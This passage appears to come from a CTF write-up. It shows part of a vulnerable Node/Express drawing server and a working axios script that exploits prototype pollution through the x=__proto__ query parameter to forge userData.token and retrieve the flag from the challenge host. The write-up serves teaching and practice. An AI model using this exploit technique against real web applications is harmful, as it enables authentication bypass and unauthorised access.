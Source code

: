 ```js
        res.cookie('user', { admin: true }, { signed: true });
    res.send('Great, you are admin now. <a href="/">[Keep Drawing]</a>');
});

app.get('/flag', (req, res) => {
    let userData = { isGuest: true };
    if (req.signedCookies.user && req.signedCookies.user.admin === true) {
        userData.isGuest = false;
        userData.isAdmin = req.cookies.admin;
        userData.token = secret.ADMIN_TOKEN;
    }

    if (req.query.token && req.query.token.match(/[0-9a-f]{16}/) &&
        hash(`${req.connection.remoteAddress}${req.query.token}`) === userData.token)
        res.send(secret.FLAG);
    else
        res.send("NO");
});

app.listen(3000, "0.0.0.0");
```

Because I just solved a prototype pollution problem recently, I saw it at a glance: `if (x && y && color) canvas[x][y] = color.toString();` and the judgment of the last paragraph:

``` js
if (req.query.token && req.query.token.match(/[0-9a-f]{16}/) &&
    hash(`${req.connection.remoteAddress}${req.query.token}`) === userData.token)
    res.send(secret.FLAG);
else
    res.send("NO");
```

As long as the userData.token can be controlled through prototype pollution, just find the correct value.

The final solution looks like this:

``` js
var axios = require('axios')
var crypto = require('crypto')
var baseUrl = 'http://chall.ctf.bamboofox.tw:8787'
var myip = '1.1.1.1'

const hash = (token) => crypto.createHash('sha256').update(token).digest('hex');
const token = '5555555555555555'

const hashValue = hash(`${myip}${token}`)

async function run() {
  await axios.get(baseUrl + '/api/draw?x=__proto__&y=token&color=' + hashValue)
  const response = await axios.get(baseUrl + '/flag?token=' + token)
  console.log(response.data)
}

run()
```
